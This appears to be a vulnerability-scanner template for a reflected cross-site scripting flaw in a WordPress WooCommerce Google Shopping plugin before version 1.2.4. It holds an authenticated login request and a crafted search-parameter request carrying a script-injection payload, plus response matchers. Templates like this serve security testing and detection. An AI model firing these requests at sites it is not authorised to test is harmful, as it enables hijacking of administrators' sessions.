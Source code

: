 **Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress WooCommerce Google Shopping \< 1.2.4 - Cross-Site Scripting
## Description
- WordPress WooCommerce Google Shopping \< 1.2.4 is susceptible to cross-site scripting because the plugin does not sanitize or escape the search GET parameter before outputting it back in the page and executing it in a logged in admin context.
- severity - high
- tags - wp-plugin,xss,authenticated,woocommerce,wpscan,wordpress
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=elex-product-feed-manage&search=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>
